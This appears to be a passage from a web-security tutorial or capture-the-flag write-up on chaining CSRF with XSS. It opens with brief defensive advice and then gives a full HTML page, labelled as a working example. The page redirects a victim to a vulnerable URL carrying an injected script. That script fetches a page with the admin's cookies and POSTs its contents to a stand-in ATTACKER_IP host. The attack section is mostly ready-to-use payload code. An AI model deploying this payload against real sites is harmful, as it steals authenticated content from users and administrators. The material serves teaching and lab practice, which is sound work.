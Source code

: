 
## **5. Summary**
- CSRF and XSS are powerful vulnerabilities that can be exploited individually or together.
- Understanding the interplay between these attacks allows you to craft sophisticated payloads and better defend applications.
- Always validate inputs, sanitize outputs, and use modern web security features like CSRF tokens and CSP headers.

---
---


## Working CSRF to XSS Payload Example

This example demonstrates chaining a CSRF payload to inject an XSS payload into a vulnerable page, which fetches the admin's challenge page and exfiltrates its contents to an attacker's server.

### HTML Payload
```html
<html>
  <body>
    <script>
      // XSS payload to fetch the page you want via fetch() GET request
      const xssPayload = `<script>
        fetch('http://challenge.localhost/', {
          method: 'GET',
          credentials: 'include' // Include admin cookies
        })
        .then(response => response.text())
        .then(html => {
          // Send the fetched HTML to the attacker's server
          fetch('http://ATTACKER_IP:port', {
            method: 'POST',
            mode: 'no-cors',
            body: html
          });
        })
        .catch(error => {
          // Send error details to the attacker's server
          fetch('http://ATTACKER_IP:port', {
            method: 'POST',
            mode: 'no-cors',
            body: JSON.stringify({ error: error.message })
          });
        });
      <\/script>`;

      // Redirect user to the vulnerable page with the XSS payload
      const targetURL = 'http://vulnerable-site/page?msg=' + encodeURIComponent(xssPayload);
      window.location = targetURL;
    </script>
  </body>
</html>
```
